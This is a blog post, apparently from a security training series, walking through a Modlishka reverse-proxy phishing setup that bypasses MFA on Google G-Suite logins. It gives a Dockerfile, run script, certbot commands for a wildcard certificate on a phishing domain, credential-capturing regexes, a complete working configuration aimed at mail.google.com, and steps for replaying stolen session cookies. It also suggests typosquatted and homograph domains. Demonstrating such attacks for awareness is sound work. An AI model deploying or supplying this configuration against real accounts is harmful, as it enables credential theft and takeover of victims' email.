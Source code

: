 ```yaml
---
layout: post
title:  "[0x5] Phishing MFA accounts"
subtitle: "Modlishka"
date:   2020-07-22 12:00:00
categories: [tools, training]
vimeoId: 440640362
draft: false
author: whois
listImage: "default_post.png"
---
```


> MFA is usually considered secure. It however can be bypassed by phishing. I made this phishing demo using [drk1wi's](https://github.com/drk1wi) tool [Modlishka](https://github.com/drk1wi/Modlishka). The tool default templates are little bit outdated so here's also instructions how to make it work against G-Suite accounts. This is not a new thing, I just wanted to check if it still works. =)

![Screenshot](/images/blog/legit_site.png)

The full configuration is on [Github](https://github.com/who1s/modlishka-config).

## Demo

{{< vimeo 440640362 >}}

## Put it to the container

I decided to do quick and dirty dockerization for the tool:
```
FROM alpine
FROM golang
RUN go get -u github.com/drk1wi/Modlishka
RUN cd $GOPATH/src/github.com/drk1wi/Modlishka/ && make
COPY modlishka.json /tmp/
```

To build and run the docker container easily, I made a script:
```
#!/bin/bash

docker build -t phishing-demo-mfa .

# Generate few example id's
for i in {1..5}
do
	echo "https://phishing.fi/?id="$i
done

docker run -p80:80 -p443:443 -it --rm phishing-demo-mfa Modlishka -config /tmp/modlishka.json
```

## Generating certificate

To make the phishing site look legit, we need a valid certificate. [Let's Encrypt (LE)](https://letsencrypt.org/) is free to use and trusted certificate provider which supports wildcard certificates. The phishing site could be made more legit by playing around with [IDN](https://en.wikipedia.org/wiki/IDN_homograph_attack), using [typosquatted domain name](https://en.wikipedia.org/wiki/Typosquatting) or simply using subdomains like google.com.phishing.fi.

Let's generate the certificate and follow instructions. Acquiring the certificate requires adding some DNS TXT records to your domain.

```
# apt-get update && apt-get install certbot
# certbot certonly --manual --preferred-challenges dns --manual-public-ip-logging-ok -d '*.phishing.fi' -d phishing.fi
# cp -r /etc/letsencrypt/archive/phishing.fi/ .
```

The Modlishka wants certificate in different format so let's convert it accordingly:
```
# openssl rsa -in privkey1.pem -out priv.key
# sed -i ':a;N;$!ba;s/\n/\\n/g' priv.key
# sed -i ':a;N;$!ba;s/\n/\\n/g' fullchain1.pem
```

## Fixing the configuration

The [Modlishka G-Suite template in Github](https://github.com/drk1wi/Modlishka/blob/master/templates/google.com_gsuite.json) seems to be obsolete. The JSON payload it tries to parse does not include the user name anymore. As the template does not work out of the box, I decided to look into G-Suite authentication process and do modifications accordingly.

Google authentication is doing a POST request where both email address and password are in params.

![Screenshot](/images/blog/phishburp.png)

This is the best place to grab the credentials so we need to adjust Modlishka's credParams configuration to do it:

Username
```
identifierInput=([^\W]+[\.,\-,\_]{0,}\w+[\@,\%40]\w+[\.,\-,\_]{0,}\w+\.\w{2,5})
```

Password
```
password=([a-zA-Z0-9"!"#$%&'()*+,-./:;<=>?@^_{|}~]+)&ca
```

These regex expressions I made with [regex101](https://regex101.com) should grab the email address and the password from given parameters. The Modlishka requires regex in base64 encoded format so the final configuration line would look like this:
```
"credParams": "aWRlbnRpZmllcj0oW15cV10rW1wuLFwtLFxfXXswLH1cdytbXEAsXCU0MF1cdytbXC4sXC0sXF9dXHcrXC5cd3swLDV9KQ==,cGFzc3dvcmQ9KFthLXpBLVowLTkiISIjJCUmJygpKissLS4vOjs8PT4/QF5fe3x9fl0rKSZjYQ==",
```

I also wanted to terminate the connection after the victim has successfully logged in. Reviewing the login process on Google shows the user is being redirected to Mail box after successful login. This means the mailbox URI can be used as a termination string:
```
"terminateTriggers": "/mail/u/",
```

The victim should be redirected to somewhere after the login which could be the real Google mail account for example. For demonstration purposes, we're gonna use this "funny" "hacked" meme:
```
"terminateRedirectUrl": "https://i0.wp.com/nexxytech.com/wp-content/uploads/2016/08/cheers.jpg",
```

The tracking ID should also be adjusted:
```
"trackingParam": "id",
```

The full configuration is here without certificates:
```
# cat modlishka.json
{
  "proxyDomain": "phishing.fi", // Your domain
  "listeningAddress": "0.0.0.0",
  "proxyAddress": "",
  "target": "mail.google.com",
  "targetResources": "content.googleapis.com,www.gstatic.com,ssl.gstatic.com,ogs.google.com,clients1.google.com,clients2.google.com,clients3.google.com,clients4.google.com,clients5.google.com,clients6.google.com",
  "rules": "",
  "terminateTriggers": "/mail/u/",
  "terminateRedirectUrl": "https://i0.wp.com/nexxytech.com/wp-content/uploads/2016/08/cheers.jpg",
  "trackingCookie": "ident",
  "trackingParam": "id",
  "jsRules":"",
  "jsReflectParam": "reflect",
  "debug": false,
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "google.log",
  "plugins": "all",
  "credParams": "aWRlbnRpZmllcj0oW15cV10rW1wuLFwtLFxfXXswLH1cdytbXEAsXCU0MF1cdytbXC4sXC0sXF9dXHcrXC5cd3swLDV9KQ==,cGFzc3dvcmQ9KFthLXpBLVowLTkiISIjJCUmJygpKissLS4vOjs8PT4/QF5fe3x9fl0rKSZjYQ==",
  "cert": "", // fullchain1.pem here
  "certKey": "", // priv.key here
  "certPool": ""
}
```

## Using the stolen credentials

After victim has logged in using the Modlishka proxypage, we can use their cookies to log in by visiting Google's email and setting the gathered cookies for example with Moustachauve's [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) and refreshing the page.

## Resources

- [Modlishka](https://github.com/drk1wi/Modlishka)
- [My configuration](https://github.com/who1s/modlishka-config)

## Disclaimer

This demo is only for demonstration and education purposes. Do not use these instructions to anything illegal.
